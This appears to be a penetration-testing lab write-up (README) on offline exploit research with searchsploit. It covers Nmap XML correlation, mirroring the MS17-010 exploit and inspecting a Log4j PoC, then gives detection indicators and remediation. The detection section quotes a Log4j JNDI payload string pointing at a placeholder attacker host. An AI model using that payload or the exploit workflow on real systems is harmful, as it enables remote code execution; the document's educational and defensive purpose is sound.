




> **English** | [Italiano](README.md)

# Offline Vulnerability Assessment & Exploit Preparation

> - **Phase:** System Exploitation - Exploit Research & Offline Vulnerability Assessment
> - **Visibility:** Zero (search in local Exploit-DB database, no packets sent to target) - Low (Nmap scan with `-sV` to generate the XML is visible on IDS/IPS)
> - **Prerequisites:** Updated Exploit-DB database (`sudo apt update && sudo apt install exploitdb`); Nmap XML output from the recon phase for automatic correlation; basic knowledge of the exploit language to analyze (C, Python, Ruby) for OPSEC code review
> - **Output:** EXPLOIT-007 (exploit research and automatic Nmap/Searchsploit correlation - severity Informational); list of applicable exploits for MS17-010 and CVE-2021-44228 with local path and source code analysis

- Operational Environment: Kali Linux Purple (Local Terminal)
- Target (Simulated): Windows 10 Workstation (IP: 192.168.0.109) and Historical Vulnerable Servers
- Toolchain Used: Nmap, Searchsploit (Exploit-DB CLI)
- Objective: Demonstrate Automated Enumeration and Exploit Management capabilities in Air-Gapped or Time-Restricted contexts (e.g., OSCP).

---

## Executive Summary

This document illustrates Vulnerability Assessment and exploit preparation methodologies in scenarios where direct internet access is restricted (Air-Gapped Networks) or where time constraints require rapid correlation between exposed services and known vulnerabilities.

Leveraging `searchsploit`, the command line interface of the Exploit-DB offline database, the operation validated two fundamental approaches: massive and automated ingestion of Nmap output in XML format and targeted search (with related source code inspection) for high-impact critical vulnerabilities (MS17-010 and CVE-2021-44228).

---

**Finding ID:** `EXPLOIT-007` | **Severity:** `Informational`

## Phase 1: Automated Triage (Nmap -> Searchsploit Integration)

The first phase simulated a massive enumeration activity. A target host was scanned via Nmap, explicitly requesting banner grabbing and service version identification (`-sV`). The output was exported in structured XML format.

The resulting file (`scansione_windows.xml`) was subsequently fed to the `searchsploit` engine via the `--nmap` flag.
The tool dynamically parsed the XML, extracting detected services (e.g., ports 135, 139, 445 and related RPC/SMB daemons) and automatically performing cross-referencing with its offline database, returning a sorted list of potential attack vectors.

This technique drastically reduces manual reconnaissance times, allowing the analyst to focus immediately on false positive validation and Weaponization.

---

## Phase 2: Exploit Hunting & Mirroring (MS17-010 EternalBlue)

In a second scenario, a targeted search was conducted for a specific and devastating SMB vulnerability: MS17-010 (EternalBlue).
The operational objective was not only to identify the exploit, but to prepare the work environment in tight time constraints, without having to navigate Kali Linux's complex directory structure.

Through the query command `searchsploit ms17-010 windows remote`, the Python exploit ID suitable for the target architecture (`42315`) was identified.
Subsequently, using the Mirroring parameter (`-m`), the exploit was instantly cloned into the analyst's current working directory, ready for the inevitable Hardcoding phases (IP and Shellcode insertion).

---

## Phase 3: Code Inspection & OPSEC (CVE-2021-44228 Log4j)

Blind execution of third-party exploits represents a critical risk for Operational Security (OPSEC). Malware downloaded from public databases may contain backdoors, destructive behaviors or obsolete shellcode that cause kernel panic.

To validate the security posture during preparation phases, the Java Log4j RCE vulnerability was searched (`searchsploit log4j rce`). Once the Proof of Concept (ID `50592`) was identified, the direct inspection parameter (`-x`) was used.

This function allowed the immediate opening of the source code in read mode, giving the analyst the ability to perform a rapid Code Review (Static Analysis) to verify payload integrity and the safety of network calls, a fundamental requirement before engaging the client's infrastructure.

---

## Reference Tools

| Tool | Type | Technique/Access | Primary Use Case |
| :--- | :--- | :--- | :--- |
| `searchsploit` | Exploit database | CLI - Offline | Exploit search in local Exploit-DB database by CVE, product, version |
| `exploit-db.com` | Exploit database | Web - Passive | Web interface with advanced filters (verified, DoS, remote, local, platform) |
| `msfconsole search` | Framework search | CLI | Metasploit module search by CVE or product with reliability rating |
| `nuclei` | Template scanner | CLI - Active | YAML template-based scanner for known CVEs, integrates Exploit-DB templates |
| `vulners` | Vulnerability DB | Web/API | Unified CVE + exploit + CVSS database with API for automatic correlation |
| `nmap --script vulners` | NSE script | CLI - Active | Automatic service version correlation with Vulners database through Nmap |
| `python -m venv` | Dev environment | CLI | Isolated environment for running Python exploits without dependency conflicts |

---

## MITRE ATT&CK Mapping

| Tactic | Technique | MITRE ID | Action Description |
| :--- | :--- | :--- | :--- |
| Reconnaissance | Active Scanning: Vulnerability Scanning | `T1595.002` | Port/service scan execution and automated correlation with known vulnerability databases. |
| Resource Development | Obtain Capabilities: Exploits | `T1588.005` | Offline search, inspection and cloning of Proof of Concepts (PoC) for critical vulnerabilities (MS17-010, Log4j). |

---

## Indicators of Compromise (IoCs) & Detection Engineering

Although in this scenario the exploits were not actively launched against targets, the preparatory and reconnaissance activities generate network artifacts that a SOC (Security Operations Center) should be able to detect:

- Network Scanning (Nmap): A version analysis (`-sV`) generates an anomalous volume of TCP SYN traffic and malformed application requests. IDS/IPS systems can detect patterns associated with Nmap probes (e.g., HTTP requests with User-Agent `Mozilla/5.0 (compatible; Nmap Scripting Engine)` or TCP packets with unusual flags).
- MS17-010 Signature (Theoretical): If the prepared exploit had been launched, the network infrastructure would have recorded anomalous SMBv1 traffic on port 445, characterized by IPC$ packets with `PeekNamedPipe` requests and large transactions.
- Log4j Signature (Theoretical): Execution of the CVE-2021-44228 payload would have left traces in application logs (e.g., Apache/Tomcat access.log) containing the typical JNDI lookup string: `${jndi:ldap://[ATTACKER_IP]/Exploit}`.

---

## Remediation Strategy & Mitigation

To neutralize the identified vulnerabilities and mitigate the effectiveness of automated reconnaissance, the following countermeasures are recommended:

1. Exposure Management (Attack Surface Management): Disable the exposure of critical services (such as SMB/RPC on ports 135, 139, 445) directly on untrusted networks. Such protocols must be accessible exclusively through VPN or isolated network segments (management VLANs).

2. MS17-010 Mitigation: Categorically disable the SMBv1 protocol on all domain machines, replacing it with SMBv2 or SMBv3. Apply the Microsoft MS17-010 security patch.

3. Log4j Mitigation: Update the `log4j-core` library to version 2.17.1 or higher. If the update is not immediately feasible, mitigate the risk by setting the environment variable `LOG4J_FORMAT_MSG_NO_LOOKUPS=true`.

4. Intrusion Prevention System (IPS): Implement and maintain updated IPS rules to block and alert in real-time on aggressive scan attempts and known exploit strings for RCE-type vulnerabilities.

---

> **Note:** All documented activities were conducted in a lab environment. Exploit-DB database searches and vulnerability verification were performed on virtual machines owned by the author. No technique was applied to real or third-party systems without explicit authorization.
